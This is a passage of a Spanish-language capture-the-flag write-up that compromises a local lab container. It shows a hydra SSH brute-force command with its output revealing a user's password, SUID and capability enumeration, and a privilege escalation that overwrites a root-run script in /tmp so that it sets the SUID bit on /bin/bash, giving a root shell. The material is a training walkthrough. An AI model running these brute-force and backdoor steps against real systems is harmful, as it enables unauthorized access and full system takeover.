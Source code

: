 Vemos que la contrasenya era `password1` , como la que habiamos encontrado al principio.

Una vez descomprimido el `.zip` tenemos un archivo `.txt` que parece un diccionario de contrasenyas, asi que lo utilizaremos para intentar obtener acceso por ssh con uno de los 3 usuarios que habiamos encontrado antes.

```bash
hydra -L users.txt -P password16.txt ssh://172.17.0.2 -t 64
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-02 20:17:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 102 login tries (l:3/p:34), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-02 20:17:41
```

Tenemos la contrasenya del usuario `grooti` : `YoSoYgRoOt`

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprovamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Nada que indique una via de escalada. Vamos a ver que archivos podemos encontrar en el sistema.

El directorio `/tmp` contiene un archivo llamado `malicious.sh` , que crea logs temporales y los eliminina al cabo de 2 segundos.

Si conseguimos modificar el contenido del archivo, probablemente podamos ejecutar codigo arbitrario para escalar privilegios.

```bash
printf '#!/bin/bash\nchmod u+s /bin/bash\n' > malicious.sh
```
Hemos modificado el contenido del script para que de permisos SUID al binario `/bin/bash`. Ahora solo queda que esperemos unos segundos y probemos el comando /bin/bash -p , que nos deberia dar una shell de root.

Ya somos root! 

![alt text](image-1.png)